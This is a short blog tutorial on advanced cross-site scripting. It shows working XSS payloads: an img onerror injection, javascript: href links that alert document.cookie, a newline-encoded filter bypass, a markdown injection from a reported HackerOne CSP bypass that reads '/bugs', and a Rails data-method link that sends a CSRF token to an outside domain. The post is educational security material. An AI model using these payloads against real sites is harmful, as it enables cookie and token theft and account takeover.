 ```yaml
---
title: advanced cross site scripting part 1
updated: 2015-11-26
tags: hackerone,xss,cross site scripting,csp bypass,href xss,stored xss,reflected xss,dom xss,google xss,csrf,ruby
---
```

> Cross-site scripting (XSS) is a type of computer security vulnerability typically found in web applications.
XSS enables attackers to inject client-side script into web pages viewed by other users.

Yeah you know about that . Let's dive deep into the cross site scripting . Now a days xss is not just inserting 
`"><img src=x onerror=prompt(9)>` .There are some clever hacks for cross site scripting . Some people redefined the way 
attackers can perform xss.
now think of `<a>` tag . Commonly known attack is inserting `javascript:alert(document.cookie)` into href . 

```html
<a href="javascript:alert(document.cookie)">lol</a>
```
But there are some filters those need an protocol like `{anything}://` . But this one dosen't executes 
`javascript://alert(document.cookie)` . To bypass this one we need some characters like %0a%0d . Final payload

```html
<a href="javascript://%0a%0dalert(document.cookie)">lol</a>
```
This one is basic too. Now we will discuss about a rare xss found by danlec which bypassed strong csp of hackerone.
Hackerone uses daring fireball as markdown [https://daringfireball.net/projects/markdown/basics](https://daringfireball.net/projects/markdown/basics).
Danlec found that `<http://\<h1\>test\</h1\>>` rendered to `http://<h1>test</h1>`
Hackerone uses strong csp but some one can access the information of the user bugs 

```
<http://\<img\ src=0\ onerror=\"$.getJSON(\'/bugs\',function(a){alert(JSON.stringify(a));})\"\>>
```

Some can send csrf token to other domain by a link handle bypass

```html
<a href="http://danlec.com" data-method="post">Proof of Concept</a>
```

`data-method="post"` Normally url's are get requests but ruby has an option of adding post method . Ruby sends `X-Csrf-Token`
with the post request so any url there can catch the csrf token at server side .


Visit my next article about advanced xss [http://withintech.com/notes/xss-cross-site-scripting-2](http://withintech.com/notes/xss-cross-site-scripting-2)

<script async src="//pagead2.googlesyndication.com/pagead/js/adsbygoogle.js"></script>
<!-- mobile ad -->
<ins class="adsbygoogle"
     style="display:inline-block;width:320px;height:100px"
     data-ad-client="ca-pub-6760357694701522"
     data-ad-slot="9506986493"></ins>
<script>
(adsbygoogle = window.adsbygoogle || []).push({});
</script>
